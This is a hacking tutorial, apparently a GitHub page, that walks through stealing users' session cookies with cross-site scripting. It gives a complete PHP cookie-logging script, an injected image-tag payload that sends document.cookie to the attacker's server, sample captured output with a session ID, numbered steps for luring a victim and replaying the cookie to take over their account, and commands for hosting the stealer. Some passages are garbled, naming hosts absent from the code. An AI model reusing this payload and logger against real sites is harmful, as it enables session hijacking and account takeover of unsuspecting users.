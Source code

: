 # XSS - Cookie Stealing

You want to make it do something useful, like steal cookies. Cookie stealing is when you insert a script into the page so that everyone that views the modified page inadvertently sends you their cookie. By modifying your  cookie, you can impersonate any user who viewed the modified page. So how do you use XSS to steal cookies?

The easiest way is to use a three-step process consisting of the injected script, the cookie recorder, and the log file.

First you’ll need to get an account on a server and create two files, log.txt and index.php. You can leave log.txt empty. This is the file your cookie stealer will write to. Now paste this php code into your cookie stealer script (index.php):

Code:

Quote:

    <?php
    function GetIP()
    {
    if (getenv("HTTP_CLIENT_IP") && strcasecmp(getenv("HTTP_CLIENT_IP"), "unknown"))
    $ip = getenv("HTTP_CLIENT_IP");
    else if (getenv("HTTP_X_FORWARDED_FOR") && strcasecmp(getenv("HTTP_X_FORWARDED_FOR"), "unknown"))
    $ip = getenv("HTTP_X_FORWARDED_FOR");
    else if (getenv("REMOTE_ADDR") && strcasecmp(getenv("REMOTE_ADDR"), "unknown"))
    $ip = getenv("REMOTE_ADDR");
    else if (isset($_SERVER['REMOTE_ADDR']) && $_SERVER['REMOTE_ADDR'] && strcasecmp($_SERVER['REMOTE_ADDR'], "unknown"))
    $ip = $_SERVER['REMOTE_ADDR'];
    else
    $ip = "unknown";
    return($ip);
    }
    function logData()
    {
    $ipLog="log.txt";
    $cookie = $_SERVER['QUERY_STRING'];
    $register_globals = (bool) ini_get('register_gobals');
    if ($register_globals) $ip = getenv('REMOTE_ADDR');
    else $ip = GetIP(); 
    $rem_port = $_SERVER['REMOTE_PORT'];
    $user_agent = $_SERVER['HTTP_USER_AGENT'];
    $rqst_method = $_SERVER['METHOD'];
    $rem_host = $_SERVER['REMOTE_HOST'];
    $referer = $_SERVER['HTTP_REFERER'];
    $date=date ("l dS of F Y h:i:s A");
    $log=fopen("$ipLog", "a+");
    if (preg_match("/\bhtm\b/i", $ipLog) || preg_match("/\bhtml\b/i", $ipLog))
    fputs($log, "IP: $ip | PORT: $rem_port | HOST: $rem_host | Agent: $user_agent | METHOD: $rqst_method | REF: $referer | DATE{ : } $date | COOKIE: $cookie <br>");
    else
    fputs($log, "IP: $ip | PORT: $rem_port | HOST: $rem_host | Agent: $user_agent | METHOD: $rqst_method | REF: $referer | DATE: $date | COOKIE: $cookie \n\n");
    fclose($log);
    }
    logData();
    ?>

This script will record the cookies of every user that views it.

## Next Step!

Now we need to get the vulnerable page to access this script. We can do that by modifying our earlier injection:

Code:

Quote:

    Ba1man”><img src=x onerror="this.src='http://my_ip_address/index.php?'+document.cookie; this.removeAttribute('onerror');">

_yoursite.com_  is the server you’re hosting your cookie stealer and log file on, and  _index.com_  is the vulnerable page you’re exploiting. The above code redirects the viewer to your script, which records their cookie to your log file. It then redirects the viewer back to the unmodified search page so they don’t know anything happened. Note that this injection will only work properly if you aren’t actually modifying the page source on the server’s end. Otherwise the unmodified page will actually be the modified page and you’ll end up in an endless loop. While this is a working solution, we could eliminate this potential issue when using source-modifying injections by having the user click a link that redirects them to our stealer:

Code:

Quote:

    logData();
    ?>

to this:

Code:

    logData();
    echo '<b>Page Under Construction</b>'
    ?>

Now when you open  _log.txt_, you should see something like this:

Code:

Quote:

    IP: ***.**.**.*** | PORT: 56840 | HOST: | Agent: Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.8) Gecko/2009032711 Ubuntu/8.10 (intrepid) Firefox/3.0.8 | METHOD: | REF: http://yoursite.com/index.php |
    DATE: Tuesday 21st 2022f March 2022 05:04:07 PM | COOKIE: cookie=PHPSESSID=889c6594db2541db1666cefca7537373


You will most likely see many other fields besides  PHPSESSID, but this one is good enough for this example. Open up firebug and add/modify all your cookie’s fields to match the data from the cookie in your log file and refresh the page. The server thinks you’re the user you stole the cookie from. This way you can log into accounts and many other things without even needing to know the passwords or usernames.

## Winding Up Altogether!

1. Test the page to make sure it’s vulnerable to XSS injections.
2. Once you know it’s vulnerable, upload the cookie stealer php file and log file to your server.
3. Insert the injection into the page via the url or text box.
4. Grab the link of that page with your exploited search query (if injection is not stored on the server’s copy of the page).
5. Get someone to use that link if necessary.
6. Check your log file for their cookie.
7. Modify your own cookie to match the captured one and refresh the page

Linux:

    ┌──(root💀kali)-[~/Desktop]
    └─# service apache2 stop
    ┌──(root💀kali)-[~/Desktop]
    └─# php -S my_ip_address:80

